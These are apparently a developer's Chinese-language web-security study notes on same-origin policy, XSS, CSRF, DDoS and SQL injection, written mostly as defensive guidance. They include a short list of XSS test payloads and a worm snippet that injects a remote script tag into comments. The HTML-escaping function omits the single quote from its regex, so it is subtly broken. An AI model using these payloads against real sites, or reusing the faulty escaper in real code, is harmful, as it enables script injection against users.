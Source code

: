 ## 同源策略
  + 协议不一样是不同源的
  ```
    https
    http
  ```
  + www 子域名和不带也是不同源的
  ```
    https://xx.com
    https://www.xx.com
  ```

  + 端口不一致也是不同源的

## 漏洞成因
1. 网页劫持（使用 https）
  > + dns 劫持
  > + 跳到假网站/页面/脚本被篡改，插入恶意代码

2. 缓存投毒，访问 A 站点时，加载了 B 站点的通用脚本，缓存时间非常长。再访问 B 站点时中招（使用 https）

3. 文件投毒（使用可靠源）
  > + 在非官方站点下载了某个库
  > + 官方下载地址被攻击
  > + 迅雷网络加速缓存了错误的文件
  > + 引用了不可信的第三方 dns 上的资源 

4. 客户端投毒，被安装了恶意插件，尤其是 chrome 插件（谨慎筛选插件，异站异密，二次验证）

5. 自身安全漏洞造成的猥琐绕过，产生反射性和存储型 xss

## XSS
### 成因
1. 提前闭合标签
2. 注释后续代码

```html
<img src="https://xxx.com/favicon.icon" onload=" " />
    ^             ^                   ^^        ^^ ^
    |             |                   ||        || |

    1             4                   51        61 7

1 处可以插入任意空格、回车、/
4 处可以是 http https ftp 等各种协议 url
5 处可以是双引号、单引号。也可以没有引号，在 ie 中可以是反引号
6 处可以是任意 js，能直接访问 document 作用域，字符可以被 html 转译
7 处可以不结尾，可以用 / 结尾
```

### Payload
实现 xss 攻击的恶意脚本称为 xss payload
+ 窃取用户的 `document.cookie`
+ 识别用户浏览器 `navigator.userAgent`
+ 伪造请求 `GET` `POST` 请求
+ xss 钓鱼，通过 xss 向网页上注入钓鱼链接，让用户访问假冒的网站

前面三个都是自动的
1. `<input onfocus=write(1) autofocus>`
2. `<svg onload=alert(1)>`
3. `<script>alert(1)<script/>`
4. `<a href="javascript:alert(1)">clickme</a>`

可以通过给 cookie 设置 `httpOnly` 属性来让脚本无法读取 cookie，但自己也不能用了，非根本性解决 xss

### 防护原则
1. 安全第一，不轻信任何数据，不轻信队友
  > + 慎用公共 cdn 资源
  > + 慎用第三方服务 jsonp 接口
  > + 不轻信用户输入（把所有的用户想象成黑客）
  > + 不轻信后端吐回的数据

2. 未雨绸缪
  > + html 正文：实体字符转译
  > + html 标签：实体字符转译
  > + html onxxx 事件属性：js 转译
  > + url：url 转译
  > + 用户富文本输入：后端白名单标签过滤，使用开源库，不要用正则过滤（正则过滤不干净的，太多种情况了）
  > + 推荐使用：`https://www.npmjs.com/package/sanitize-html`

  ```js
  function encode(html) {
    return html.replace(/[<>&"]/g, v => (
      {
        '<':'&lt;',
        '>':'&gt;',
        '&':'&amp;',
        "'": '&#39;',
        '"':'&quot;',
      }[v]
    ))
  }
  ```

3. demo
  ```html
    no: 不要在这里直接插入不可信数据

    <script>$no</script>
    <!-- $no -->
    <div $no=""></div>
    <div id="$no"></div>
    <$no href="..."></a>
    <a href="$no"></a>
    <input type="text" $no />
    <style>$no</style>
  ```

4. 配置安全协议头
  1. `https://imququ.com/post/web-security-and-response-header.html`


### 存储型 xss
1. 由于后端过滤不干净 + 前端展示时没有正确的编码，而造成永久性的 xss
2. 修复：后端一般不会轻易对大量已存数据再编辑。需要对新写入的数据修正存储逻辑。前端做好正确的编码转译

### 反射性（非持久性） xss
诱导用户点击恶意链接来造成一次性攻击
1. 黑客把带有恶意脚本代码参数的 URL 地址发送给用户
2. 用户点击此链接
3. 服务器端获取请求参数并直接使用，服务器反射回结果页面

  > + 反射性 xss 攻击是一次性的，必须通过用户点击链接才能发起
  > + 一些浏览器如 chrome 内置了一些 xss 过滤器，可以防止大部分反射型 xss 攻击
  > + 反射性 xss 其实就是服务器没有对恶意的用户输入进行安全处理就直接反射响应内容，导致恶意代码在浏览器中执行的一种 xss 漏掉

### 渗透测试
1. 通过模拟恶意黑客的攻击方法，来评估计算机网络系统安全的一种评估方法
2. 一般大公司都有专门的安全团队用对自己产品做渗透测试。作为公司开发人员，不要动歪脑子，如屏蔽渗透服务器 `ip/ua`，害人害己

## CSRF
其实我感觉 csrf 的主要问题就是在 cookie 身上，解决办法主要也是围绕 cookie 来解决
+ `Cross-site request forgery` 跨站请求伪造
+ 增删改操作严禁使用 `GET` 请求（幂等）
+ `POST` 等其他协议同样能被 `CSRF`
+ 敏感操作一定要判断请求来源、在 cookie 之外的地方增加加密串，和请求一同带上，甚至发送验证码给用户
+ refer 验证（但是 refer 可以伪造，比如在 node 中请求）
+ token

### xss + csrf (蠕虫)
不断传播的 xss + csrf 攻击
```js
  const attack = '<script src="http://localhost:3001/worm.js"></script>'
  $.post('/api/comments', { content: `haha, ${attack}` })
```

### DDOS 攻击
分布式拒绝服务
+ 黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
+ 验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为
+ 限制请求频率是最常见的针对 DDOS 攻击的防御措施（比如 github 就是每个小时 5000 次）
+ 设置自己业务为分布式服务，防止单点失效
+ 使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
+ 优化资源的使用来提高 web server 的负载能力
+ 买高防 ip

### http 劫持
+ 使用 https

## SQL 注入
+ 对查询语句中字符做正确的转译
+ 最小化数据库账户使用权限
+ 不开发不必要但权力过大的功能（比如查用户的信息，扩大到查询所有用户的信息）
+ 不要过于信任用户所输入的数据，限制输入的字符数，以及对用户输入的数据做潜在指令的检查